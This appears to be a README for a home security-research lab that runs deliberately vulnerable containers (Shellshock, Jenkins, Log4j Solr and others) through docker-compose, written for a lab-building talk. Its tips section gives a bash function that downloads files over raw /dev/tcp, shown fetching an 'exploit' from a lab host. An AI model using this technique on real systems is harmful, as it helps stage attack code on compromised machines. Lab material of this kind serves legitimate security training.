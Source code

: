 ## Intro
This docker-compose setup allows you to easily spin up a security testing/research environment.

This was done for our presentation "Do It Yourself: Building a Security Lab At Home" in January 2021.

The main purpose is to create a separate network and containers that can be referenced by name.

This also allows you to have multiple containers listening on the same port to avoid confusing port mappings.

## Usage

Simply clone this repository and run:

``
docker-compose up -d
``

Be certain to add the following to your /etc/hosts file:

```
# Vulhub lab
10.1.1.5        shellshock
10.1.1.6        jenkins
10.1.1.7        phpmyadmin
10.1.1.8        mysql
10.1.1.9        telnetserver
10.1.1.10       kali
10.1.1.11       solr-log4j

```

Modify for your own needs! Thanks to Vulhub: https://github.com/vulhub/vulhub

## Tips

To use bash to retrieve a file via HTTP create this function (just copy and paste this into a terminal):

```
_get ()
{
  IFS=/ read proto z host query <<< "$1"
  exec 3< /dev/tcp/$host/80
  {
    echo GET /$query HTTP/1.1
    echo connection: close
    echo host: $host
    echo
  } >&3 
  sed '1,/^$/d' <&3 > $(basename $1)
}

```

Then you can use it like this:

```$ _get http://10.1.1.14/exploit```